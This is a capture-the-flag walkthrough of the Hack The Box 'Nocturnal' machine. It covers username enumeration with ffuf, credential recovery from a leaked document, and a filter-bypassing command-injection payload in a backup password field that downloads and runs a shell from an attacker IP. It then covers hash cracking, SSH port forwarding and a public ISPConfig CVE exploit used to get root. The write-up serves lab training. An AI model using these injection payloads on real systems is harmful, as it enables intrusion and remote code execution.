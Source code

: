 # 👨‍💻 Hack The Box - Nocturnal Walkthrough

* **Machine Type**: Linux
* **Solved by**: Akshat Nigam
* **Category**: Web Exploitation, Privilege Escalation
* **Difficulty**: Easy
* **Attack Surface**: Web Interface, Parameter Injection, Intranet Exposure

---

## Port Scan

```
nmap Nocturnal.htb -sV -v

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu
80/tcp open  http    nginx 1.18.0 (Ubuntu)
```

## Web Interface

* Register a user, log in.
* Upload a file (e.g., .xlsx). here i have uploaded dangerous.xlsx

* Note the download URL format:

 ```
http://nocturnal.htb/view.php?username=abc&file=dangerous.xlsx
```




## Enumerating Usernames

```
ffuf -w /usr/share/wrodlists/seclists/Usernames/Names/names.txt -u 'http://nocturnal.htb/view.php?username=FUZZ&file=dangerous.xlsx' \
-H 'Cookie: PHPSESSID=r9r2r5mvphpms3nnuk7gbl1i6n' -fs 2985

```

- Found valid users: `admin`, `amanda`, `tobias`
- Amanda's directory contained a file: `privacy.odt`
- File is a zip archive. Extract and find Amanda's password.

## Admin Panel Access
- Log in with Amanda's credentials.
- Create backup with password => Generates `.zip`
- Open BurpSuite capture the request, send it to the Repeater. 


* Filter can be bypassed using:

```
password=%0Abash%09-c%09"id"%0A&backup=
```

* Download remote shell using RFI:

```
password=%0Abash%09-c%09"wget%0910.xx.xx.xx/shell"%0A&backup=
password=%0Abash%09-c%09"bash%09shell"%0A&backup=
```
- Once you get into the shell, look for db file.
```
  nocturnal_database.db
```

- Get Tobias's hash from DB.

```
sqlite3 nocturnal_database.db
```

- Crack successfully to get Tobias's password.

```
john -w=/usr/share/wordlists/rockyou.txt hash.txt --format=Raw-Md5

```



## SSH into the system

```
ssh tobias@nocturnal 
```
---

## Privilege Escalation to Root

### Intranet Discovery

```
ss -tulnp
```

* Port 8080 open internally

```
ssh tobias@nocturnal.htb -L 8888:127.0.0.1:8080
```

* Found ISPConfig panel
* Inspect the HTML code of the website
* Likely version: `3.2`

### Exploit Used:

* CVE-2023-46818 - Code Injection in ISPConfig
* GitHub PoC: (https://github.com/ajdumanhug/CVE-2023-46818)

### Root Access

* Exploit or reuse credentials from Amanda/Tobias
* Success: Root shell acquired ✅

---

## Summary

* **User:** Exploited insecure parameter exposure to enumerate valid usernames. Dumped DB backup using Amanda's creds, cracked password hash to get Tobias.

* **Root:** Found local ISPConfig panel over port forwarding. Used public exploit (CVE-2023-46818) or password reuse to gain root access.

> Rooted `Nocturnal` 🌓
